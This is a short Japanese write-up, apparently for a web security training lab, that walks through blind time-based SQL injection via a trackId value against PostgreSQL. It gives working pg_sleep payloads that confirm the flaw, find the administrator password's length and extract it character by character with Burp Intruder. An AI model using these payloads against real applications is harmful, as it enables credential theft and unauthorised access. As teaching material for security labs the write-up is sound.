 `trackId`に対して以下のペイロードで10秒ちょい遅延が発生するため脆弱性自体は特定できます。

```sql
RLp7SJP1WQbetJlb'||pg_sleep(10) -- -- 
```

特定ができたので後はやるだけです。


### Exploit

`passwordの長さ`
```sql
'||(select case when length(password) = $$ then pg_sleep(10) else pg_sleep(0) end from users)--
```

![](./images/README_231030_193057.png)


上記で、Numbersを使い1~20までIntruderでぶち込むことで、20がであることがわかったので次にパスワードの列挙です。

```sql
'||(select case when substring(password, §§, 1) = '§§' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')--
```
![](./images/README_231030_193606.png)

後は、Intruderの結果で10病の遅延が起きているものを使いログインすれば終わりです。
